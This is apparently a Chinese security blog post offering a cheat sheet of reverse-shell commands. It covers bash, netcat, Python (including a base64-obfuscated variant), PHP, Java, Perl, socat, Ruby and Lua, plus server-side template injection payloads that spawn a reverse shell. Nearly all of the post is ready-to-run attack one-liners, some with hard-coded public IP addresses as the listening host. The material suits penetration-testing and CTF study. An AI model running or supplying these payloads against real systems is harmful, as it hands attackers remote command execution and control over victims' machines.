 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      记录一些反弹shell的指令               # 标题 
subtitle:    一篇水文 #副标题
date:       2020-01-12              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Linux

---
```


# 什么是反弹shell
反弹shell在我看来就是攻击者输入命令，命令在被攻击端执行，并将执行后得到的结果回显到攻击端的过程。  
在目前看来似乎主要用在命令执行上，当网页没有直接回显时我们可以使用反弹shell在我们自己服务端对被攻击端执行代码。  
关于反弹shell的主要原理我就不在这细讲了。具体的可以看这几篇文章:  

[panda1g师兄的文章1](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux%E9%87%8D%E5%AE%9A%E5%90%91%2F)  
[panda1g师兄的文章2](https://panda1g1.github.io/%2F2018%2F10%2F06%2Flinux_%E5%8F%8D%E5%BC%B9shell%2F)  
[K0rz3n师兄的文章1](https://www.k0rz3n.com/2018/08/05/Linux%E5%8F%8D%E5%BC%B9shell%EF%BC%88%E4%B8%80%EF%BC%89%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6%E4%B8%8E%E9%87%8D%E5%AE%9A%E5%90%91/)  
[K0rz3n师兄的文章2](https://www.k0rz3n.com/2018/08/05/Linux%20%E5%8F%8D%E5%BC%B9shell%20%EF%BC%88%E4%BA%8C%EF%BC%89%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E6%9C%AC%E8%B4%A8/)  

# 反弹shell的指令
本文仅记录一些反弹shell的指令:
## bash反弹shell
```
bash -i &> /dev/tcp/ip/port 0>&1

&> /dev/tcp/47.236.36.93/2333 0>&1
```
## nc反弹shell
### nc支持-e
```
nc -e /bin/bash ip port 
```
### nc不支持-e
由于-e命令太危险，很多nc在安装时就已经把-e命令去掉了.我们可以采用监听两个端口来解决。  
攻击机:
```
nc -l -vv -p port1
nc -l -vv -p port2 
```
受害机:
```
nc ip port1 |/bin/bash| nc ip port2
```

## python反弹shell
``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.103.22.65",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
"
```
也可以这样写:
``` python
python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"
```


## php反弹shell
``` php
PHP -f 
$s = fsockopen("ip",port);
exec('/bin/bash -i  0>&3 1>&3 2>&3');
```
(注意单双引号)

## java反弹shell
``` java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;
cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## perl反弹shell
``` perl
perl -e 'use Socket;$i="192.168.31.41";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## SSTI反弹shell
``` python
{{[].__class__.__base__.__subclasses__()[59]().__getattribute__('_module').__getattribute__('linecache').__getattribute__('o'+'s').__getattribute__('sys'+'tem')("python -c 'i"+"mport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"47.103.22.65\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")}}
```
也可以这样写:
``` python
[].__class__.__mro__[-1].__subclasses__()[71].__init__.__globals__['os'].system('python -c "exec(\'aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIzOS4xMDguMTgwLjE3MSIgICAgICA7ICAgIHBvcnQ9NTY3ODkgICAgICA7ICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pICAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QscG9ydCkpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMCkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwxKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDIpICAgICAgOyAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik=\'.decode(\'base64\'))"')
```

## socat反弹shell
``` socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<你的IP>:<你的端口>
```

## ruby反弹shell
``` ruby
ruby -rsocket -e'f=TCPSocket.open("<你的IP>",<你的端口>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 不依赖于/bin/sh的shell
``` ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### 如果目标系统运行Windows
``` ruby
ruby -rsocket -e 'c=TCPSocket.new("<你的IP>","<你的端口>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## lua反弹shell
``` lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('<你的IP>','<你的端口>');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```




